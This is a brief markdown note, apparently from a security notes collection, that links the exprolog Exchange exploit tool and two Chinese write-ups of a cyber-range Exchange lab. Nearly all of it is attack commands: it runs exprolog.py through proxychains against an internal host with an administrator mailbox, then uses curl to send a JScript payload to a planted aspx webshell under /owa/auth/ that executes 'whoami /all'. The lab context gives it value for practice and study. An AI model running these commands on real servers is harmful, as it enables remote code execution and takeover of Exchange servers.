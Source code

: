 
# [exprolog](https://github.com/herwonowr/exprolog)

* [Gcow | Ichunqiu云境 —— Exchange Writeup](https://mp.weixin.qq.com/s/LC6G0_WME9Fb1rMcRUMPpg)
* [Dest0g3 |    春秋云境——Exchange WriteUp](https://mp.weixin.qq.com/s/Fvo1B5UbiqbENEe9uYrzJA)

```sh
proxychains python3 exprolog.py -t 172.22.3.9 -e administrator@xiaorang.lab
根据回显得到的 aspx 可执行shell命令 例
proxychains curl --request POST --url https://172.22.3.9/owa/auth/ncyev.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```